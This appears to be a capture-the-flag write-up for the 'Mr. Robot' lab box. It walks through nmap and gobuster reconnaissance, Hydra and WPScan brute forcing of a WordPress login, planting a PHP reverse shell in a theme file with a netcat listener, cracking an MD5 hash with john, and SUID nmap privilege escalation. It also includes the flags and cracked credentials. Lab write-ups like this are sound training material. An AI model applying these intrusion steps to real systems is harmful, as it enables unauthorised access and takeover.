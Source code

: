 # MR. ROBOT CTF BOX

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, Burp Suite, Hydra, WPScan, netcat, john

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

**Burp Suite**: tool to test web application security

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

http-post-form "PAGE:PARAMETER=^HYDRA_VALUE^:FAILURE STRING"
-t multi threading

**WPScan**: word press enumeration tool

```
wpscan [options]
```

-U username
-P password
--url

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.6.40.234

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster

```
nmap -sC -sV -oN nmap.txt 10.6.40.234
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>
443 (http)

```
gobuster dir -u "http://10.6.40.234" -w /usr/share/dirb/wordlists/common.txt
```

Status code 200 means success
![gobuster](./imgs/gobuster.png)

Go to http://10.10.3.80/robots.txt<br>
robots.txt is a common file found on websites that gives a list of files that are off limits for bots (web crawlers)

FILES: key-1-of-3.txt, fsocity.dic

FLAG 1: 073403c8a58a1f80d943455fb30724b9

--------------------------------------------------------------------

### 2. FIND FLAG 2

**TOOLS**: Burp Suite, Hydra, WPScan, netcat, john

Use Burp Suite to intercept a failed login

![Burp Suite](./imgs/burp_suite.png)

INTERCEPTED POST REQUEST: log=name&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.176.17%2Fwp-admin%2F&testcookie=1

We can now feed this into hydra to brute force the login

First use fsocity.dic to find username with static password
```
hydra -L fsocity.dic -p test 10.6.40.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
"/wp-login.php" is the page<br>
"log=^USER^&pwd=^PWD^" are the parameters<br>
"Invalid username" is what a failure looks like<br>
-t 30 is the# of threads

![Hydra 1](./imgs/hydra1.png)

Invalid User<br>
![Admin](./imgs/incorrect_user.png)

User Exists<br>
![Elliot](./imgs/correct_user.png)

Use that username to brute force password using fsocity.dic again

```
wpscan -U "Elliot" -P fsocity.dic --url 10.6.40.234
```

![WPScan](./imgs/wpscan.png)

USER: Elliot
PASSWORD: ER28-0652

Login then go to editor and paste in PHP Reverse Shell code (payload.php) from pentest-monkey. I edited the 404.php page

![Editor](./imgs/editor.png)

```
nc -nlvp 4444
```

Then go http://10.10.63.226/wp-content/themes/twentyfifteen/404.php to to trigger shell

User doesn't have access to flag.

Found password hash:<br>
robot:c3fcd3d76192e4007dfb496cca67e13b

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5 --fork=8
```

PASSWORD: abcdefghijklmnopqrstuvwxyz


Need to run this in php reverse shell to get interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Get access to robot user

```
su robot
```

FLAG 2: 822c73956184f694993bede3eb39f959

--------------------------------------------------------------------

### 3. FIND FLAG 3

To find binaries for privilege escalation
```
find / -user root -perm /4000 2>/dev/null
```

Target is /usr/local/bin/nmap<br>
Found here https://gtfobins.github.io/gtfobins/nmap/

```
/usr/local/bin/nmap --interactive
!sh
```

FLAG 3: 04787ddef27c3dee1ee161b21670b4e4
